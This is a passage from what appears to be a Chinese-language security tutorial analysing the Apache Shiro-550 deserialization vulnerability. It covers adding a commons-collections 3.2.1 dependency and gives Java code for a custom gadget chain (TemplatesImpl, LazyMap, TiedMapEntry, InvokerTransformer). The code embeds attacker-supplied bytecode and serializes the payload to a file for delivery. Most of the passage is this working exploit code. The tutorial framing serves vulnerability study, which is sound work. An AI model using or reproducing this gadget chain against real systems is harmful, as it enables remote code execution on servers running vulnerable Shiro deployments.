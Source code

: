 <img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711099895450.png" alt="1711099895450" style="zoom: 50%;" />

成功

#### 3.2 CC链

如果是按照上述环境搭建的流程来的话，因为shiro本身是不带CC依赖的，所以到这一步需要加一个CC依赖：

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

之后呢，如果我们正常拿CC链来打的话是打不通的（tomcat的类加载器里边不支持数组类的加载），当然，如果你的CC依赖是CC4的话，是可以直接拿CC2来打的，我们这里用的是CC3的依赖，CC2打不了，就需要构造自己的链子来把Transformer数组给去掉，我在这里学的是白日梦组长的链子，思路相当于之前学过的CC3、CC6、CC2的集合，忘记了的话可以去看一下前面的知识：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
HashMap<Object,Object> map = new HashMap<>();
Map<Object,Object> innerMap = LazyMap.decorate(map, new ConstantTransformer(1));
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, templates);
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "bbb");
innerMap.remove(templates);
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(innerMap,invokerTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\shiro_CC.txt"));
oos.writeObject(hashMap);
```
